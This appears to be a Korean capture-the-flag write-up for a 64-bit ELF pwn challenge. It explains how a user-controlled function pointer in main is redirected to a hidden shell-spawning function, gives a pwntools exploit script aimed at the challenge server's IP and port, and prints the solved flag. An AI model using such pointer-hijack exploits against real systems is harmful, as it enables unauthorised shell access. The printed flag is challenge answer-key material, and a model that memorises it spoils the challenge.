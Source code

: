 # Point to pointer!

###### 529p

>넘나 쉬운 문제 당신도 풀 수 있습니다!
>
>nc 222.110.147.52:42632
>
>[Link](https://drive.google.com/open?id=1DU8vjBw73skA7HUoNsl2RCn-U_Lb5g_1)

----

64비트 ELF파일을 준다.

0x4007A7에 쉘키는 함수가있는데 이 함수에 접근하는함수가 없다.

근데 main함수인 0x4007C2에 0x40088E에 `call edx`가 있다.

```assembly
mov rdx, [rax+0x10]
mov eax, 0
call rdx
```

자세히 보면 다음과 같은 어셈블리인데 위에서 read함수에서 받아온 값의 16째자리부터 64비트 정수를 받아서 해당 주소의 함수를 호출하는데 따라서 여기에 저 쉘키는 함수주소를 넣어주면 된다.

익스플로잇 코드는 다음과 같다

```python
from pwn import *

p=remote("222.110.147.52",42632)
payload=cyclic(16)
payload+=p64(0x4007A7)
p.sendline(payload)
payload="Y"
p.send(payload)
p.interactive()
```

-------

FLAG는 `FLAG{P0InT_2_pOiNt_2_PO1t3R!}`이다.